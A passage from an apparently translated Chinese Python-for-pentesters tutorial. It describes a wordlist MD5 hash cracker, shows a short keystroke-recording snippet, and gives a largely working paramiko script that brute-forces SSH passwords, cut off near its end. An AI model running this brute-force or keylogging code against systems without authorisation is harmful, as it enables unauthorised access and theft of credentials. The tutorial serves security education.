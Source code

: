 下面的脚本遵循与上述方法接近的方法；

- 询问单词列表的位置
- 要求破解哈希值
- 从单词列表中读取值（每行一个）
- 将明文值转换为 MD5 哈希值
- 将生成的 MD5 哈希值与用户输入的值进行比较

## 键盘记录器

模块让我们能够用简单的方式解决相对困难的问题。

一个很好的例子是“键盘”模块，它允许我们与键盘进行交互。

如果您的系统上没有“键盘”模块，我们可以使用 pip3 来安装它。
pip3 install keyboard   

使用键盘模块，以下三行代码足以记录和重播按下的按键：
``````
import keyboard
keys = keyboard.record(until ='ENTER')
keyboard.play(keys)
``````
“keyboard.record”将记录按键直到按下 ENTER，“keyboard.play”将重播它们。由于此脚本正在记录击键，因此也将看到使用退格键进行的任何编辑。

## SSH 暴力破解
强大的 Python 语言受到许多模块的支持，可以轻松扩展其功能。Paramiko 是一个 SSHv2 实现，可用于构建 SSH 客户端和服务器。

下面的示例显示了构建 SSH 密码暴力攻击脚本的一种方法。正如编程中常见的情况一样，此类应用程序很少有单一的正确答案。作为渗透测试人员，您对编程语言的使用对于开发人员来说会有所不同。虽然他们可能关心最佳实践和代码卫生，但您的目标通常是最终获得按您希望的方式工作的代码。

现在，您应该熟悉“try”和“ except”语法。该脚本有一个新功能“def”。“Def”允许我们创建自定义函数，如下所示。“ssh_connect”函数不是 Python 原生的，而是使用 Paramiko 和“paramiko.SSHClient()”函数构建的。
``````python
import paramiko
import sys
import os

target = str(input('Please enter target IP address: '))
username = str(input('Please enter username to bruteforce: '))
password_file = str(input('Please enter location of the password file: '))

def ssh_connect(password, code=0):
    ssh = paramiko.SSHClient()
    ssh.set_missing_host_key_policy(paramiko.AutoAddPolicy())

    try:
        ssh.connect(target, port=22, username=username, password=password)
    except paramiko.AuthenticationException:
        code = 1
    ssh.close()
    return code

with open(password_file, 'r') as file:
    for line in file.readlines():
        password = line.strip()
        
        try:
            response = ssh_connect(password)

            if response == 0:
                 print('password found: '+ password)
                 exit(0)
            elif response == 1: 
                print('no luck')
        except Exception as e:
``````
